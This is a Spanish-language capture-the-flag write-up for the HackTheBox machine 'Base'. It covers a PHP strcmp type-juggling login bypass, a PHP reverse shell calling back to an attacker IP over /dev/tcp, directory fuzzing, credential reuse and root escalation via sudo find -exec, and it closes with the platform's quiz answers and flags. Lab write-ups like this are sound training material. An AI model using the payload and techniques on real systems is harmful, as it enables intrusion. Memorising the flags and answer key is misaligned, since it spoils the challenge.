




Writeup Base HackTheBox
Resolución de la máquina Base de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.129.95.184
Nmap scan report for 10.129.95.184
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Al ingresar en el nagegador podemos ver una web normal, y en la parte izquierda un botón login

Al abrirlo vemos el login.php pero con algo un poco extraño, esta dentro de un directorio login

En el directorio login podemos ver 3 archivos entre ellos un swap del login.php original

Al ver cadenas con strings y darle la vuelta al archivo con tac podemos ver en algunas lineas un php
❯ strings login.php.swp | tac | sed -n 4,11p
<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
require('config.php');
if (strcmp($username, $_POST['username']) == 0) {
if (strcmp($password, $_POST['password']) == 0) {
$_SESSION['user_id'] = 1;
header("Location: /upload.php");
Podemos hacer un Type Juggling ya que se usa == y solo se compara que el valor sea igual pero no el tipo de dato como se haria con ===, modificamos la petición agregando [] para que pase la comprobación del valor y nos tome un sesión valido

Una logueados podemos ver un campo de subida de archivos

Definimos un php que nos envie una reverse shell y lo subimos en la web
<?php
system("bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'")
?>
Podemos usar wfuzz para encontrar el directorio donde se ha subido el archivo .php
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -u http://10.129.95.184/FUZZ -t 100 --hc 404
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************
Target: http://10.129.95.184/FUZZ
Total requests: 30000
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000170: 301 9 L 28 W 314 Ch "forms"
000000039: 301 9 L 28 W 314 Ch "login"
000000084: 301 9 L 28 W 315 Ch "assets"
000009899: 301 9 L 28 W 318 Ch "_uploaded"
Lo llamamos desde el directorio _uploades y recibimos shell como www-data
❯ curl http://10.129.95.184/_uploaded/shell.php
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.95.184
www-data@base:~/html/_uploaded$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@base:~/html/_uploaded$ hostname -I
10.129.95.184 dead:beef::250:56ff:feb9:2f6a
www-data@base:~/html/_uploaded$
En /var/www/html/login hay un archivo config.php que contiene credenciales
www-data@base:~/html/login$ cat config.php
<?php
$username = "admin";
$password = "thisisagoodpassword";
www-data@base:~/html/login$
Solo existe el usuario john ademas de root, usamos la contraseña para covertirnos en john
www-data@base:~$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
john:x:1000:1000:John:/home/john:/bin/bash
www-data@base:~$ su john
Password: thisisagoodpassword
john@base:~$ id
uid=1000(john) gid=1000(john) groups=1000(john)
john@base:~$ hostname -I
10.129.95.184 dead:beef::250:56ff:feb9:2f6a
john@base:~$ cat user.txt
f54846c258f3b4612f78a819573d158e
john@base:~$
Mirando privilegios de sudoers tenemos permitido ejecutar como root el binario find
john@base:~$ sudo -l
[sudo] password for john: thisisagoodpassword
Matching Defaults entries for john on base:
env_reset, mail_badpass,
secure_path=/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User john may run the following commands on base:
(root : root) /usr/bin/find
john@base:~$
Podemos usar el parámetro -exec para spawnearnos una bash y convertirnos en root
john@base:~$ sudo find . -exec /bin/bash \; -quit
root@base:~# id
uid=0(root) gid=0(root) groups=0(root)
root@base:~# hostname -I
10.129.95.184 dead:beef::250:56ff:feb9:2f6a
root@base:~# cat /root/root.txt
51709519ea18ab37dd6fc58096bea949
root@base:~#
Vamos con las preguntas que nos pide la web de htb para pwnear la máquina
Which two TCP ports are open on the remote host?
- 22,80
What is the URL for the login page?
- /login/login.php
How many files are present in the '/login' directory?
- 3
What is the file extension of a swap file?
- .swp
Which PHP function is being used in the backend code to compare the user submitted username and password to the valid username and password?
- strcmp()
In which directory are the uploaded files stored?
- /_uploaded
Which user exists on the remote host with a home directory?
- john
What is the password for the user present on the system?
- thisisagoodpassword
What is the full path to the command that the user john can run as user root on the remote host?
- /usr/bin/find
What action can the find command use to execute commands?
- exec
Submit user flag
- f54846c258f3b4612f78a819573d158e
Submit root flag
- 51709519ea18ab37dd6fc58096bea949